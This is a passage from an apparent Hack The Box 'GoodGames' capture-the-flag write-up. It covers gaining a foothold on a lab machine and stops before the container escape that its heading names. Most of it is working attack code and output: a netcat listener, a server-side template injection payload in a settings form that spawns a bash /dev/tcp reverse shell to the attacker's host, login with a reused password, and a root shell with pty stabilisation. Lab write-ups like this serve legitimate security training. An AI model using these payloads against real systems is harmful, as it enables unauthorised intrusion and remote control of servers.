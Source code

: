 #### Start `netcat` to listen for reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/HTB GoodGames]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

#### Exploit SSTI in `name` parameter of `POST /settings` endpoint to spawn reverse shell
`superadministrator` password has been reused to access web application.
```
┌──(magicrc㉿perun)-[~/attack/HTB GoodGames]
└─$ LHOST=$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1) && \
LPORT=4444 && \
REVERSE_SHELL=$(echo -n "/bin/bash -c \"bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1\"" | jq -sRr @uri) && \
CSRF_TOKEN=$(curl -s http://internal-administration.goodgames.htb/login | grep -oP 'value="\K[^"]+') && \
curl -s -c cookies.txt http://internal-administration.goodgames.htb/login -d "csrf_token=$CSRF_TOKEN&username=admin&password=superadministrator&login=" -o /dev/null && \
curl -s -b cookies.txt http://internal-administration.goodgames.htb/settings -d "name={{request.application.__globals__.__builtins__.__import__('os').popen('$REVERSE_SHELL').read()}}"
```

#### Confirm foothold gained
```
connect to [10.10.16.23] from (UNKNOWN) [10.129.82.210] 49038
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@3a453ab39d3d:/backend# id
uid=0(root) gid=0(root) groups=0(root)
```

### Escape from Docker container to host using SSH with generated private key

#### Stabilise reverse shell
```
root@3a453ab39d3d:/backend# python -c 'import pty; pty.spawn("/bin/bash")'
```

#### Confirm foothold gained on unprivileged Docker container
```
root@3a453ab39d3d:/backend# cat /proc/1/cgroup
11:pids:/docker/3a453ab39d3df444e9b33e4c1d9f2071827b3b7b20a8d3357b7754a84b06685f
10:perf_event:/docker/3a453ab39d3df444e9b33e4c1d9f2071827b3b7b20a8d3357b7754a84b06685f
9:devices:/docker/3a453ab39d3df444e9b33e4c1d9f2071827b3b7b20a8d3357b7754a84b06685f
8:memory:/docker/3a453ab39d3df444e9b33e4c1d9f2071827b3b7b20a8d3357b7754a84b06685f
7:net_cls,net_prio:/docker/3a453ab39d3df444e9b33e4c1d9f2071827b3b7b20a8d3357b7754a84b06685f
6:rdma:/
5:cpuset:/docker/3a453ab39d3df444e9b33e4c1d9f2071827b3b7b20a8d3357b7754a84b06685f
4:blkio:/docker/3a453ab39d3df444e9b33e4c1d9f2071827b3b7b20a8d3357b7754a84b06685f
3:freezer:/docker/3a453ab39d3df444e9b33e4c1d9f2071827b3b7b20a8d3357b7754a84b06685f
2:cpu,cpuacct:/docker/3a453ab39d3df444e9b33e4c1d9f2071827b3b7b20a8d3357b7754a84b06685f
1:name=systemd:/docker/3a453ab39d3df444e9b33e4c1d9f2071827b3b7b20a8d3357b7754a84b06685f
0::/system.slice/containerd.service

root@3a453ab39d3d:/backend# cat /proc/1/status | grep -i "seccomp"
Seccomp:        2
```
